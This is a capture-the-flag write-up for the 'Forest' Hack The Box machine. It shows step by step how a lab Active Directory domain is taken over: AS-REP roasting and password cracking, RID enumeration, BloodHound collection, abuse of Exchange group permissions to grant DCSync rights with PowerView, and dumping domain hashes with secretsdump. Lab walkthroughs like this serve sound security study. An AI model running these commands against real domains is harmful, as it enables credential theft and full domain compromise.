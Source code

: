 # Forest

## nmap scan

```text
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-29 10:35:19Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
```

seems to be a domain controller

and we got a domain name `htb.local` from the nmap scan

lets try `smbclient -L \\\\10.10.10.161\\` =&gt; so we have nothing here, cant do rpcclient as well

sometimes, this works :P,

AS-REP roasting

```text
GetNPUsers.py -dc-ip 10.10.10.161 htb.local/
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-07-29 10:39:57.352002  2021-07-29 05:45:57.315643  0x410200
```

so if we append `-request` to the above command at the end, we will get a krb asrep token, which we can crack using john

```text
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:10 DONE (2021-07-29 10:36) 0.09442g/s 385813p/s 385813c/s 385813C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

now that we got some creds, we can run some commmands, lets start ny putting these into files, users and pass

so, first thing we should do it run a lookupsids.py \(from impacket\) - this does a user RID bruteforce, basically loops through the User IDs in windows and finds out the user names from that

```text
sebastien
lucinda
svc-alfresco
Service
Privileged
andy
mark
santi
```

so there are some other usernames as well in there, but those seem obselete, so I've a copy of them in /tmp/t, just in case

lets check if we can roast any of them, before that lets check if we can do evil-winrm - yep, so we got user so fast :P

kerberoasting doesn't seem to work, giving weird errors, lets move on...

anyways, since we are on the box, I'm going to run sharphound to give us some more data,

lets copy the SharpHound.exe from our local machine to the target machine

```text
on local machine,
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

on windows target,
net use x: \\10.10.14.77\kalishare /user:guest guest
cd x:
.\SharpHound.exe -c all
```

now that we have the zip file, lets have a look at bloodhound

we find that, our guy is a part of the `Account Operators` group, which means we can add users and stuff

so, looking at BloodHound, we find that the `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` has the permission to `Write-DACL` on the domain, which means we add the ACL on the domain that a specific user will be able to do a DCSync on the domain

so, from the permission that we have above to add users, lets create and add a user to the `EXCHANGE WINDOWS PERMISSIONS` group and additionally `remote management users` local group ,we are also adding him to the domain with the /domain so that he'll be able to to secretsdump once he is in the correct groups,

we are adding him in the remote users group so that we'll be able to evil-winrm as that user once we create him

```text
net user foo1 P@$$W0RD /add /domain
net localgroup "remote management users" foo1 /add
net group "EXCHANGE WINDOWS PERMISSIONS" foo1 /add
```

even I dont know, how we can check first that if we'll be able to add users and add them to specific groups, so we have to just try the attacks based on how the domain looks like

now, we can winrm as the foo1 user, and once we do that, since we are the member of `EXCHANGE WINDOWS PERMISSIONS` group, we'll be able to modify the ACL on the domain to allow us to do a DCSync \(atleast that it what I understand\)

we can do this in two ways which I've explored, and both of them require PowerView.ps1, so lets get powerview on our machine, and since we are in the evil-winrm session, we can just run `upload PowerView.ps1`, and it will find a file in our current working directory \(where we winrm'ed from\), and uploads it to the windows machine

so, once we have PowerView.ps1 on remote, we can just source it diretly as we are already in winrm powershell session

`. .\PowerView.ps1`

now that we've sourced PowerView.ps1,

`add-objectacl -principalidentity foo1 -rights dcsync`

so as we are already logged in as foo1 now, we dont need the credential variable, but if we're not logged in separately as this user, we have to specify the credential with

```text
$pass = convertto-securestring 'P@$$word' -asplain -force
$cred = new-object system.management.automation.pscredential('htb.local\foo1', $pass)
add-objectacl -principalidentity foo1 -credential $cred -rights dcsync
```

other way is \(which i've bashed around a lot :\)\)

`Add-DomainObjectAcl -credential $cred -principalidentity foo1 -TargetIdentity "DC=htb,DC=local" -Rights DCSync`

so, one of these methods will give you \(the user foo1\) the right to do a DCSync

lets do a secretsdump.py since we have the rights now

```text
secretsdump.py -dc-ip 10.10.10.161 htb.local/foo1@FOREST                                                                                                                                                                                 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                                                                                                                                                                     
                                                                                                                                                                                                                                             
Password:                                                                                                                                                                                                                                    
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                                                                                                                           
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                                                                
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                                                                         
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:aad3b435b51404eeaad3b435b51404ee:::                                                                                                                                             
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                                                               
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::                                                                                                                                                              
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
```

there we go, now we should have all the hashes \(replaced the admin hash with null one\)

now, we can do another evil-winrm to get into the box as admin


